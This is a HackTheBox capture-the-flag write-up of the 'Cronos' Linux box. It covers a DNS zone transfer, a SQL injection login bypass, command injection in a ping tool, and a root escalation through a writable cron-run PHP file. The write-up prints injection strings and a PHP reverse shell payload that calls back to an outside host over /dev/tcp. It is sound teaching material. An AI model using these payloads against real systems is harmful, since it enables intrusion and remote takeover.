# Cronos

## Overview

- **OS:** Linux (Ubuntu)
- **IP:** 10.129.227.211
- **Difficulty:** Medium
- **Platform:** HackTheBox

### Summary

Cronos exposes a DNS server that allows a zone transfer, leaking the `admin.cronos.htb` subdomain. The admin panel is bypassed with a simple SQL injection in the login form, which leads to a "Net Tool" page vulnerable to command injection. That gives a shell as www-data. Privilege escalation comes from a cron job running a PHP script as root that is writable by the web user.

## Enumeration

### Nmap Scan

Ran a service and version scan across all ports.



Three ports open: SSH (OpenSSH 7.2p2) on 22, DNS (ISC BIND 9.10.3-P4) on 53, and Apache 2.4.18 on 80. A DNS server on a box is always worth a closer look, since misconfigured DNS can leak internal hostnames.

### Web Server

Browsing to the IP directly just shows the default Apache page, so there is nothing useful on the bare address yet.



### DNS and the hosts File

Since port 53 is open, the box is running its own DNS. To resolve a `.htb` name locally we need to map it manually. Added the IP to `/etc/hosts`.





Now `cronos.htb` resolves and the site loads a Laravel landing page.



### Zone Transfer

A DNS zone transfer (AXFR) asks a DNS server to hand over every record it holds for a domain. It is meant only for replication between trusted servers, so when a public-facing server allows it to anyone, it leaks the full list of subdomains.

Ran `dig axfr @10.129.227.211 cronos.htb` and the server happily returned its records.



This reveals the `admin.cronos.htb` subdomain alongside `ns1` and `www`. Added the new subdomain to `/etc/hosts`.



Browsing to `admin.cronos.htb` gives a login panel.



## Foothold

### Testing the Login

Captured the login POST request in Burp using `admin`/`admin` as test creds to see what the form sends.







Saved the raw request to `login.req` so it can be fed into sqlmap.



### sqlmap (No Luck)

Pointed sqlmap at the saved request.



sqlmap flagged a possible time-based hit but ultimately marked both parameters as not injectable at the default level and risk.



### Manual SQL Injection

Automated tools miss things, so it is always worth trying by hand. SQL injection in a login form works by breaking out of the query the application builds. A typical login check looks like:

```sql
SELECT * FROM users WHERE username='INPUT' AND password='INPUT'
```

Injecting `' OR 1=1 -- -` is the classic attempt, but here it returned invalid.



The trick that worked was `admin' -- -` in the username field. The single quote closes the username string and `-- -` comments out the rest of the query, including the password check, so the app logs us in as the first matching user.





> Why `-- -` and not just `--`? In MySQL a comment marker `--` must be followed by a space or control character to be treated as a comment. The trailing `-` after the space guarantees the syntax is valid and avoids the comment being ignored.

### Net Tool and Command Injection

After the bypass we land on "Net Tool v0.1", a page that runs network commands like traceroute and ping against an address you supply.



Whenever a web app runs system commands with user input, it is worth testing for command injection. The `;` character ends one shell command and starts another, so if the input is passed straight to the shell we can append our own commands. Tried `8.8.8.8; whoami`.



It returned `www-data`, confirming command injection. Confirmed again with `id`.



### Exploring the Filesystem

With command execution working, started poking around. Used `; cd ../../../; ls` to jump to the root of the filesystem and list it.



Then moved into `/home` to find the user directory.



Inside the noulis home directory is `user.txt`.



## User Flag

```
2c77267acdf7fec8********************
```

(censored)

## Reverse Shell

Running commands through a web box one at a time is painful, so the next move is a proper interactive shell.

### Confirming the Laravel App

Before that, while still using the injection, dumped the database config from the Laravel app to understand the setup. The `config.php` on the admin panel leaks the MySQL credentials.



These creds (`admin` / `kEjdbRigfBHUREiNSDs`) are good to keep but not needed for the path we take.

### Getting the Shell

Set up a netcat listener.



Then triggered a bash reverse shell through the Net Tool injection box pointing back at the listener, which caught a connection as www-data.



## Privilege Escalation

### Finding the Cron Job

The standard first check for privesc is scheduled tasks. Read `/etc/crontab`.



The interesting line is:

```
* * * * * root php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

A cron job is a task Linux runs automatically on a schedule. The five stars mean it runs every minute, and the `root` field means it runs as root. It executes the Laravel `artisan` file with PHP. If we can modify that file, our code runs as root the next time the job fires.

### Checking Permissions

Checked the permissions on the artisan file.



It is owned by www-data and writable by us. To be thorough, ran a search for every file we can write to under the Laravel directory.





Listing the full directory confirms artisan is writable by www-data.





### Overwriting artisan

Backed up the original artisan first in case we needed it.



The plan is to replace artisan with a small PHP file that fires a reverse shell. Since editing inside the dumb www-data shell is awkward, built the payload locally and served it. The payload is a one-line PHP `exec` that calls back to our box:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.210/5555 0>&1'");
?>
```



Started a second netcat listener for the root shell.



Served the payload from the Kali box with a quick Python web server.



Then on the target, pulled the malicious artisan down over the original with wget.



### Catching Root

Within a minute the cron job ran artisan as root and the listener caught a shell.



`whoami` and `id` confirm root.



## Root Flag

```
694aa8a7bc076fcd**********************
```

(censored)

pwned

## Lessons Learned

- Open DNS on a box should always be tested for zone transfers. A single `dig axfr` here handed over the `admin` subdomain that the whole foothold depended on.
- Automated tools are not the final word. sqlmap declared the login safe, but a manual `admin' -- -` walked straight through it.
- Any web feature that runs system commands needs strict input handling. The Net Tool passed user input to the shell, so a simple `;` chained our own commands.
- Scheduled tasks running as root are a prime privesc target. A root cron job pointing at a file owned and writable by the web user is game over, since you control what root executes.
- Keep a backup before overwriting a target file. If the payload had failed, restoring the original artisan keeps the box in a working state.
